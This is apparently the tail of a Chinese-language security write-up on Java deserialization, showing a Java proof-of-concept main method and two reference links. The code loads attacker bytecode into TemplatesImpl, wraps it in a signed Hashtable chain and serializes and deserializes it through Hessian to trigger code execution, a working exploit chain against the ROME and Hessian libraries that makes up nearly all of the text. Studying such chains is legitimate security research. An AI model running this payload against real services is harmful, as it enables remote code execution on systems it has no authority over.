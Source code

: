 ```java

    public static void main(String[] args) throws Exception {
        TemplatesImpl templates = new TemplatesImpl();
        ClassPool pool = ClassPool.getDefault();
        CtClass clazz = pool.getCtClass("top.longlone.A");
        byte[] bytes = clazz.toBytecode();

        Utils.setFieldValue(templates, "_bytecodes", new byte[][]{bytes});
        Utils.setFieldValue(templates, "_name", "A");

        Hashtable table1 = getPayload(Templates.class, templates);

        KeyPairGenerator kpg = KeyPairGenerator.getInstance("DSA");
        kpg.initialize(1024);
        KeyPair kp = kpg.generateKeyPair();
        SignedObject signedObject = new SignedObject(table1, kp.getPrivate(),
                Signature.getInstance("DSA"));

        Hashtable table2 = getPayload(SignedObject.class, signedObject);

        ByteArrayOutputStream bos = new ByteArrayOutputStream();
        Hessian2Output hessianOutput = new Hessian2Output(bos);
        hessianOutput.writeObject(table2);
        hessianOutput.getBytesOutputStream().flush();
        hessianOutput.completeMessage();
        hessianOutput.close();

        ByteArrayInputStream bis = new ByteArrayInputStream(bos.toByteArray());
        Hessian2Input hessianInput = new Hessian2Input(bis);
        hessianInput.readObject();

    }
}
```

## 参考文章
- https://c014.cn/blog/java/ROME/ROME%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90.html
- https://xz.aliyun.com/t/10824

